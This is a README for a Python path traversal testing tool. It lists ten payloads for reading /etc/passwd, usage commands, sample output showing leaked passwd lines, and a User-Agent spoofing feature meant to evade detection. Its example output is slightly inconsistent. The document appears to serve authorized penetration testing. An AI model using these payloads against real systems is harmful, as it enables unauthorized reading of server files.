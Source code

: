 # Dynamic Path Traversal Tester (GET)

## Overview
This script is a **dynamic path traversal testing tool** designed to identify potential vulnerabilities in web applications.  
It attempts multiple traversal techniques against a given endpoint and detects whether responses resemble sensitive files such as `/etc/passwd`.

- Supports testing **single or multiple URLs**.  
- Automatically detects parameters to inject if none are specified.  
- Provides two modes of output:  
  - **Verbose (`--verbose`)**: detailed raw request/response info (original style).  
  - **Non-verbose (default)**: concise, professional output with colors.  

---

## Features
- Built-in **10 traversal payload techniques**.
- Automatic detection of `/etc/passwd`-like content.
- Optional **list of URLs** input.
- Configurable delay and timeout.
- Support for ignoring TLS verification (`--insecure`).
- Support for following redirects (`--follow`).
- **User-Agent spoofing** to avoid detection.

---

## Requirements
- Python **3.7+**
- Install dependencies:
  ```bash
  pip install requests colorama
  ```

---

## Techniques Included

| ID   | Description                          | Example Payload                               |
|------|--------------------------------------|-----------------------------------------------|
| T01  | Absolute path                        | `/etc/passwd`                                 |
| T02  | Simple traversal `../` ×6            | `../../../../../../etc/passwd`                |
| T03  | Nested traversal `....//` ×3         | `....//....//....//etc/passwd`                |
| T04  | Nested traversal `....\/` ×3        | `....\/....\/....\/etc/passwd`             |
| T05  | Single URL-encoded `../` ×3          | `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd`       |
| T06  | Double URL-encoded `../` ×3          | `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd` |
| T07  | Non-standard `..%c0%af` ×3           | `..%c0%af..%c0%af..%c0%afetc/passwd`          |
| T08  | Non-standard `..%ef%bc%8f` ×3        | `..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc/passwd` |
| T09  | Base-dir bypass                      | `/var/www/images/../../../etc/passwd`         |
| T10  | Null byte terminator `.png`          | `../../../etc/passwd%00.png`                  |

---

## Usage
### Test a single URL
```bash
python3 traversal_tester.py -u "http://localhost:8080/download?file=test.txt"
```

### Specify a parameter
```bash
python3 traversal_tester.py -u "http://localhost:8080/download" -p filename
```

### Test multiple URLs from a file
```bash
python3 traversal_tester.py --list targets.txt
```

### Enable verbose mode (detailed output)
```bash
python3 traversal_tester.py -u "http://localhost:8080/download" --verbose
```

---

## Example Output

### Default (non-verbose, colored)
```
[TARGET] http://localhost:8080/download
[T01] Absolute path (filename) → No match
[T02] Simple traversal ../ x6 (filename) → POSSIBLE LEAK!
[✓] No /etc/passwd leak detected
```

### Verbose
```
[+] Target: http://localhost:8080/download
[+] Params: filename
[+] Techniques: 10

T02 | Simple traversal ../ x6 | param=filename
    URL     : http://localhost:8080/download?filename=../../../../etc/passwd
    Status  : 200  Size: 1423 bytes
    RESULT  : POSSIBLE /etc/passwd LEAK ✅
      > root:x:0:0:root:/root:/bin/bash
      > daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

---

## Disclaimer
This tool is intended **for educational and authorized penetration testing purposes only**.  
The author is **not responsible for misuse or damage** caused by this script.
